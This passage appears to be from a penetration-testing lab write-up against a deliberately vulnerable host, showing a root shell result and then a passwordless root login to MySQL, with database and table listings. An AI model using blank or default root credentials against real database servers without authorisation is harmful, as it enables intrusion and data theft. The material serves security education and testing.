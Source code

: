 ```
uid=0(root) gid=0(root) groups=0(root)
```

### MySQL

The next service that I went after was the `mysql` service running on the host. The default credentials for that service can sometimes be username `root` with no password. In this case, it appeared that this default credential was in fact a viable option.

```
root@kali:~# mysql -u root -h target
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)
```

This actually allowed me to see several users that were established in the MySQL database:

```
MySQL [(none)]> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [mysql]> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| func                      |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| proc                      |
| procs_priv                |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
17 rows in set (0.00 sec)
```